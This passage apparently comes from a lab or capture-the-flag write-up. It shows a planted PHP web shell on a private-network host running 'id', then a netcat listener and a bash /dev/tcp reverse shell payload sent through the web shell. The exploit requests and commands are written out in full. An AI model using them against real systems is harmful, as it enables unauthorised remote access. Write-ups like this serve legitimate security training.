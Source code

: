 ### request
```http
GET /store/bootstrap/img/shell.php?cmd=id HTTP/1.1
Host: 192.168.230.111
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.5359.72 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: PHPSESSID=bu0q9rntu36tcho07li6erit21
Connection: close
```

### response
```http
HTTP/1.1 200 OK
Date: Sun, 01 Jan 2023 12:23:46 GMT
Server: Apache/2.4.41 (Ubuntu)
Content-Length: 54
Connection: close
Content-Type: text/html; charset=UTF-8

uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

> And we got a shell!
{: .prompt-info }

---
# post exploitation
## reverse shell
### start listener on attacker machine
```bash
$ nc -lvp 80    
listening on [any] 80 ...
```

### trigger reverse shell
payload: `bash -c 'bash -i >& /dev/tcp/192.168.49.230/80 0>&1'`
```http
GET /store/bootstrap/img/shell.php?cmd=bash+-c+'bash+-i+>%26+/dev/tcp/192.168.49.230/80+0>%261' HTTP/1.1
Host: 192.168.230.111
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.5359.72 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: PHPSESSID=bu0q9rntu36tcho07li6erit21
Connection: close
```
